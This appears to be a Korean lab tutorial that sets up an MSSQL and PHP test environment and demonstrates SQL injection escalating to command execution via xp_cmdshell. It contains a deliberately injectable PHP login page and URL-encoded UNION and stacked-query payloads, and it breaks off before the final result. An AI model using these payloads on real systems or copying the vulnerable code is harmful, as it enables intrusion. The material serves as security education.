




# Stored Procedure SQL Injection

xp_cmdshell이라는 [Stored Procedure](https://ko.wikipedia.org/wiki/%EC%A0%80%EC%9E%A5_%ED%94%84%EB%A1%9C%EC%8B%9C%EC%A0%80)를 호출하여 원격 코드 실행을 할 수 있다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [Stored Procedure](#Stored-Procedure)**

 - [xp_cmdshell](#xp_cmdshell)


# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Windows 10 20H2 19042.508 |
| Architecture  | x86-64                    |
| IP            | 192.168.0.41              |
| MSSQL         | 2019 Express              |
| SSMS          | 18.11.1                   |

[MSSQL Server](https://www.microsoft.com/ko-kr/sql-server/sql-server-downloads)를 다운받은 후 설치하자.

설치 완료 후 SSMS도 설치하자.



SSMS를 실행 후 MSSQL로 연결하자.



test라는 테이블을 만들고 id와 pw라는 컬럼을 만든 후 데이터를 넣자.

```sql
USE [test]
GO

INSERT INTO [dbo].[user]([id],[pw])
     VALUES
           ('admin','helloworld')
GO
```

취약한 서버 환경을 위하여 xp_cmdshell을 사용할 수 있는 지 확인하자.

```sql
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'
```

value 컬럼의 값이 0이라면, 다음의 쿼리를 통해 값을 바꾸자.

```sql
EXEC sp_configure 'show advanced options', 1
GO

RECONFIGURE
GO

EXEC sp_configure 'xp_cmdshell', 1
GO

RECONFIGURE
GO
```

Web/WAS는 Ubuntu로 구성하였다.

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
root@ubuntu:~# apt -y install php-pear php-dev unixodbc-dev
root@ubuntu:~# pecl install sqlsrv
root@ubuntu:~# pecl install pdo_sqlsrv
root@ubuntu:~# curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
root@ubuntu:~# curl https://packages.microsoft.com/config/ubuntu/20.04/prod.list > /etc/apt/sources.list.d/mssql-release.list
root@ubuntu:~# apt-get update
root@ubuntu:~# apt-get -y install msodbcsql18
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=sqlsrv.so
extension=pdo_sqlsrv.so
```

SQLi(SQL Injection)에 취약한 페이지를 생성하자.

```php
<?php
        if (isset($_GET['userid']) && isset($_GET['password'])) {
                $option = array("Database" => "test", "UID" => "root", "PWD" => "root", "Encrypt" => true, "TrustServerCertificate"=> true);
                $conn = sqlsrv_connect("192.168.0.41, 3306", $option);
                if ($conn === false) die(print_r( sqlsrv_errors(), true));
                $sql = "SELECT id,pw FROM [user] WHERE id='".$_GET['userid']."' and pw='".$_GET['password']."'";
                $result = sqlsrv_query($conn, $sql);
                if (!$result) die(print_r( sqlsrv_errors(), true));
                $row = sqlsrv_fetch_array($result, SQLSRV_FETCH_ASSOC);
                if ($row) echo "Welcome ".$row['id'];
                else echo "Login Failed";
                sqlsrv_free_stmt($result);
                sqlsrv_close($conn);
        } else {
?>
<html>
        <body>
                <form action="/index.php" method="get">
                        <label>ID : </label><input type="text" name="userid" required>
                        <label>PW : </label><input type="password" name="password" required>
                        <input type="submit" value="login">
                </form>
        </body>
</html>
<?php
        }
?>
```

# **Stored Procedure**

## **xp_cmdshell**

xp_cmdshell을 사용하기 위해서는 접속 계정이 해당 권한을 가지고 있어야 한다.

UNION SELECT를 이용하여 권한을 확인해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' UNION SELECT is_srvrolemember('sysadmin'),2-- |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+UNION+SELECT+is_srvrolemember%28%27sysadmin%27%29%2C2--&password=123 |

결과는 다음과 같다.

	Welcome 0

0이라면 권한이 없다는 것이므로, SMSS를 통해서 권할을 부여하자.



다시 권한을 확인해보자.

	Welcome 1

RCE여부를 확인하기 위해 Wireshark를 띄우고 ping명령을 실행하게 하자.

| data	| value	|
| :---	| :--- 	|
| ID	| '; EXEC master.sys.xp_cmdshell 'ping 8.8.8.8'-- |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27%3B+EXEC+master.sys.xp_cmdshell+%27ping+8.8.8.8%27--&password=123 |

결과는 다음과 같다.

